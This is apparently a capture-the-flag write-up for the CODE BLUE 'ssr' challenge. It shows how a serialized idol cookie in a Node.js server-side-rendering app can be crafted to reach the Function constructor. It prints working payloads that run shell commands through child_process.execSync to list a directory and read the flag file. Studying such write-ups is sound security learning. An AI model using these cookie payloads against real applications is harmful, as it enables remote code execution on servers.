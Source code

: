 There are some actions of this site:

- Login
- Get new idol
- Let idol say something

When we get an idol, this site use cookie such as ``[{"key":["ssr","0"]}]`` to store it.

And when we access url like http://ssr.tasks.ctf.codeblue.jp/idols/0/say1, this cookie will unserialize as a ssr idol Uzuki then call Uzuki's ``say1`` function.

Try ``[{"key":["a","0"]}]`` will get an error

```
TypeError: Cannot read property '0' of undefined
    at generateIdol (/usr/local/ssr/build/server.js:144:49)
    at /usr/local/ssr/build/server.js:172:12
    at Array.map (<anonymous>)
    at unserializeIdols (/usr/local/ssr/build/server.js:169:20)
    at Idol.render (/usr/local/ssr/build/server.js:436:46)
    at /usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:793:21
    at measureLifeCyclePerf (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:73:12)
    at ReactCompositeComponentWrapper._renderValidatedComponentWithoutOwnerOrContext (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:792:25)
    at ReactCompositeComponentWrapper._renderValidatedComponent (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:819:32)
    at ReactCompositeComponentWrapper.performInitialMount (/usr/local/ssr/node_modules/react-dom/lib/ReactCompositeComponent.js:359:30)
```

In this chall, server side and client side share some code, so we can see functions related with idol generating:

```js
var unserializeIdols = exports.unserializeIdols = function unserializeIdols(idolsData) {
  if (!idolsData) {
    return [];
  }
  return idolsData.map(function(_ref) {
    var key = _ref.key;
    return generateIdol(key);
  });
};
```

```js
var idol = (0, _idols.unserializeIdols)(cookies.get('idols'))[id];
if (!idol) {
  return _react2.default.createElement(
    'div',
    null,
    'Invalid Idol!!'
  );
}

var idolAction = action || 'say1';
if (!idol[idolAction]) {
  return _react2.default.createElement(
    'div',
    null,
    'Invalid Action!!'
  );
}
```

```js
var generateIdol = function generateIdol(key) {
  var _key = _slicedToArray(key, 2),
      rarity = _key[0],
      idolNo = _key[1];

  var idolClass = _idolDatabase2.default[rarity][idolNo];
  return new idolClass(key);
};
```

With such code, when we pass a cookie such as ``[{"key":["ssr","0"]}]`` will execute:

```js
var idol = _idolDatabase2.default["ssr"]["0"];
return new idolClass(["ssr","0"]);
```

This remind me some magic JavaScript properties such as prototype/constructor will do something i want. When we pass a cookie like:

```[{"key":["constructor","constructor","0%3Breturn 1"]}]```

will execute

```js
var idolClass = _idolDatabase2.default["constructor"]["constructor"];
return new idolClass(["constructor","constructor","0;return '1'"]);
```

and generate a fucntion

```js
function(){constructor,constructor,0;return '1'}
```

Now we can generate an arbitrarily function, we can use this function by ``call`` method with visit url http://ssr.tasks.ctf.codeblue.jp/idols/0/call.

so let's list directory first, try

```
[{"key":["constructor","constructor","0%3Breturn process.mainModule.require('child_process').execSync('ls /usr/local/ssr/')+''"]}]
```

will return

```
README.md
build
conf
flag
gulpfile.js
node_modules
package-lock.json
package.json
public
src
style
webpack.config.js
```

and then cat flag with

```
[{"key":["constructor","constructor","0%3Breturn process.mainModule.require('child_process').execSync('cat /usr/local/ssr/flag')+''"]}]
```

got 

```
CBCTF{server_side_render1ng_1s_Soo_fun}
```
